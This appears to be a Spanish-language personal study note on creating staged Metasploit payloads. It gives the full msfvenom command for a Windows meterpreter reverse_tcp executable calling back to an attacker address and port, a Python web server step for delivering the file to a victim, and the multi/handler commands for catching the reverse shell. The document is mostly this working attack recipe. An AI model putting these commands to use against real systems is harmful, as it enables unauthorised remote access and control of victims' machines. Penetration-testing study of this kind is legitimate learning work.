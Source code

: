 #payload #explotacion 

---------
Los de este tipo envían el payload de forma fragmentada, mientras que los de tipo [[3. Msf Venom Non-Staged]] no lo hacen.

- Suelen ser menos estables
- Payload más pequeños
- Menos detectables
- Personalizables

Una forma de crear payloads **staged** es de la siguiente manera, usando el [[1. MsfVenom]] con el siguiente código de ejecución:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.20.16 LPORT=4646 -f exe -o reverse.exe`

Posteriormente, una vez ganado el acceso en la máquina víctima, con el siguiente comando abre un servidor en Python3 y descargas el virus en la máquina víctima:

`python3 -m http.server 80`

Una vez descargado, mediante Metasploit accedes a la consola operativa del payload con los siguientes comandos:

`msfconsole`

`msfdb run`

Luego, estando en la consola, realiza lo siguiente:

`use exploit/multi/handler`

Seteamos el payload que vamos a utilizar:

`set payload windows/x64/meterpreter/reverse_tcp`

Seteamos nuestra IP y puerto de atacante:

`set LHOST 192.168.20.16`

`set LPORT 4646`

Finalmente, ejecutamos con el comando **run**.